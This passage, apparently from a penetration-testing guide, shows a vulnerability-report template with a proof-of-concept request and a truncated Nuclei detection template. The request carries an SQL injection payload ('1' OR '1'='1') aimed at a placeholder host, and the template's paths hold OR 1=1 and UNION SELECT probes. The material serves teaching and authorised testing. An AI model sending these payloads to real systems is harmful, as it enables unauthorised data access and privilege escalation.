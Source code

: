 ```markdown
1. Navigate to [URL]
2. Intercept the request using Burp Suite
3. Modify the [parameter] to [payload]
4. Observe the [result]

## Proof of Concept
### Request
```http
POST /api/vulnerable-endpoint HTTP/1.1
Host: target.com
Content-Type: application/json
Authorization: Bearer [token]

{
  "user_id": "1' OR '1'='1",
  "action": "admin_function"
}
```

### Response
```json
{
  "status": "success",
  "admin_data": {
    "all_users": ["admin", "user1", "user2"],
    "sensitive_info": "confidential_data"
  }
}
```

## Impact
- **Data Exposure**: Access to sensitive user information
- **Privilege Escalation**: Admin functionality accessible to regular users
- **Business Risk**: [Specific business impact]

## Remediation
1. Implement proper input sanitization
2. Use parameterized queries for database operations
3. Implement proper authorization checks
4. Add input validation on both client and server side

## References
- OWASP: [Relevant OWASP reference]
- CWE: [Weakness classification]
```

## Tool Integration and Automation

### Custom Nuclei Templates
```yaml
id: custom-sqli-detection
info:
  name: Custom SQL Injection Detection
  author: pentester
  severity: high
  
requests:
  - method: GET
    path:
      - "{{BaseURL}}/search?q=test'/**/OR/**/1=1--"
      - "{{BaseURL}}/api/users?id=1'/**/UNION/**/SELECT/**/null--"
    
```
